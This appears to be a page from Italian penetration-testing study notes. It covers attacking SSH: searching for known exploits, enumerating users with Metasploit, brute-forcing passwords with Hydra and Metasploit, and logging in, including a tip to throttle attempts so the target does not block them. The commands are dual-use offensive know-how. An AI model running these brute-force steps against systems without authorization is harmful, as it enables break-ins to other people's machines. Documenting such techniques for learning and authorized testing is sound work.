<a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ssh-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---
## Enumerazione degli utenti
Prima di porcedere con un attacco bruteforce, possiamo tentare di enumerare gli utenti con un modulo di Metasploit che enumera utenti sulla base del timing delle risposte e generalmente trova più utenti rispetto al bruteforce
```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

---

## Bruteforce
Possiamo ora tentare di trovare delle credenziali usando il bruteforce
### Hydra
```bash
hydra -L <usernameList> -P <passwordList> -t 4 <IP> ssh
```
- `-L`: file con la lista degli username
- `-P`: file con la lista delle password
- `-t 4`: numero di thread simultanei

### Metasploit
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP>
set USERNAME <username>
set PASS_FILE <path_wordlist>
run
```
> **Nota:** usa velocità ridotte per evitare blocchi o ban da parte del sistema target.

---

## Accesso 
Dopo aver trovato una coppia di credenziali valide, possiamo passare alla fase di accesso. 
```bash
ssh <username>@<IP>
```
Alla prima connessione comparirà:
```bash
Are you sure you want to continue connecting (yes/no)?
```
Rispondi `yes`, poi inserisci la password.
> **Curiosità:** alcuni utenti SSH possono avere accesso root o sudo senza password in ambienti mal configurati.

---
